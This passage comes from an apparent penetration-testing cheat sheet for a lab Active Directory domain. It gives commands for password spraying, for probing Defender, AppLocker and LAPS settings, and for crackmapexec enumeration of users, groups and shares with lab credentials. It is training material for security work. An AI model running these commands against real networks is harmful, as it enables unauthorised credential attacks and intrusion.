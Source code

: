 | `Import-Module .\DomainPasswordSpray.ps1`                                                                                            | Used to import the PowerShell-based tool `DomainPasswordSpray.ps1` from a Windows-based host.                                                                                                                                                        |
| `Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue`                                 | Performs a password spraying attack and outputs (-OutFile) the results to a specified file (`spray_success`) from a Windows-based host.                                                                                                              |

## Enumerating Security Controls

| Command                                                                    | Description                                                                                                                                                                                  |
| -------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Get-MpComputerStatus`                                                     | PowerShell cmd-let used to check the status of `Windows Defender Anti-Virus` from a Windows-based host.                                                                                      |
| `Get-AppLockerPolicy -Effective \| select -ExpandProperty RuleCollections` | PowerShell cmd-let used to view `AppLocker` policies from a Windows-based host.                                                                                                              |
| `$ExecutionContext.SessionState.LanguageMode`                              | PowerShell script used to discover the `PowerShell Language Mode` being used on a Windows-based host. Performed from a Windows-based host.                                                   |
| `Find-LAPSDelegatedGroups`                                                 | A `LAPSToolkit` function that discovers `LAPS Delegated Groups` from a Windows-based host.                                                                                                   |
| `Find-AdmPwdExtendedRights`                                                | A `LAPSTookit` function that checks the rights on each computer with LAPS enabled for any groups with read access and users with `All Extended Rights`. Performed from a Windows-based host. |
| `Get-LAPSComputers`                                                        | A `LAPSToolkit` function that searches for computers that have LAPS enabled, discover password expiration and can discover randomized passwords. Performed from a Windows-based host.        |

## Credentialed Enumeration

| Command                                                                                          | Description                                                                                                                                                                                                                                                                             |
| ------------------------------------------------------------------------------------------------ | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `xfreerdp /u:forend@inlanefreight.local /p:Klmcargo2 /v:172.16.5.25`                             | Connects to a Windows target using valid credentials. Performed from a Linux-based host.                                                                                                                                                                                                |
| `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users`                                | Authenticates with a Windows target over `smb` using valid credentials and attempts to discover more users (`--users`) in a target Windows domain. Performed from a Linux-based host.                                                                                                   |
| `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups`                               | Authenticates with a Windows target over `smb` using valid credentials and attempts to discover groups (`--groups`) in a target Windows domain. Performed from a Linux-based host.                                                                                                      |
| `sudo crackmapexec smb 172.16.5.125 -u forend -p Klmcargo2 --loggedon-users`                     | Authenticates with a Windows target over `smb` using valid credentials and attempts to check for a list of logged on users (`--loggedon-users`) on the target Windows host. Performed from a Linux-based host.                                                                          |
| `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares`                               | Authenticates with a Windows target over `smb` using valid credentials and attempts to discover any smb shares (`--shares`). Performed from a Linux-based host.                                                                                                                         |